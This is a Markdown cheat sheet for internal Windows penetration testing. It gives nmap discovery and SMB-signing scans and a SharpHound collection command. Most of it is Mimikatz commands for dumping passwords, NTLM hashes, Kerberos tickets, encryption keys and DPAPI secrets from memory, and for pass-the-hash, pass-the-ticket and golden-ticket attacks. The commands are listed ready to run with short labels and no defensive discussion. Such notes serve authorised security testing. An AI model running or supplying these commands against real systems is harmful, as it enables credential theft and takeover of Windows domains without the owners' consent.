 # Internal (Windows)

Starting with some NMap Scans/Scripts we can find plenty of other information for more targeted attacks and finding other attack paths/vectors. Then depending if we were given user credentials to perform a "compromised user" approach, we can go down other paths, but either way we would want to check for all of these with and without credentials.

We should verify if the machine is domain joined or not as well.

## NMap

* Find Uphosts:

```
nmap -sn -iL targets.txt -oG - | ForEach-Object { if ($_ -match "Up$") { ($_ -split ' ')[1] } } > up-hosts.txt
```

* Scan and output to file:

```
nmap -p 80 --open -iL targets.txt > 80.txt
```

* SMB Signing Not Required:

```
nmap -p 445 -iL uphosts.txt --script smb2-security-mode.nse > smb-signing-not-required.txt 
```

* SNMP Info

```
nmap -Pn -sV -p 161 --script=snmp-info IP
```

* Puts saved output into a list of IPs:

```
Select-String -Path "input.txt" -Pattern '\b(?:\d{1,3}\.){3}\d{1,3}\b' | ForEach-Object { $_.Matches.Value } > output.txt
```

## Sharphound

Ingest Files for bloodhound

```
Sharphound.exe -u USER -p 'PASSWORD' -d DOMAIN -c All
```

## Mimikatz

### Enable debug privileges

```
privilege::debug
```

### sekurlsa

* Extract credentials from the system's memory

```
sekurlsa::logonpasswords
```

```
sekurlsa::logonPasswords full
```

* Dump and export Kerberos tickets from memory

```
sekurlsa::tickets /export
```

* Pass the hash - PTH

```
sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:HASH /run:cmd
```

### kerberos

* Dump and export Kerberos tickets from memory associated with active user sessions

```
kerberos::list /export
```

* Pass the ticket - PTT

```
kerberos::ptt c:\TICKET
```

* Create a Golden Ticket

```
kerberos::golden /admin:DOMAIN-ADMIN /domain:DOMAIN /sid:USER-SID /krbtgt:KRBTGT /ticket:TICKET
```

### TGT

* Interact with and manipulate Kerberos tickets

```
kerberos
```

### ekeys

* Dump encryption keys from the system's memory

```
sekurlsa::ekeys
```

### DPAPI

* Extract and decrypt credentials protected by DPAPI (Data Protection API) from memory

```
sekurlsa::dpapi
```
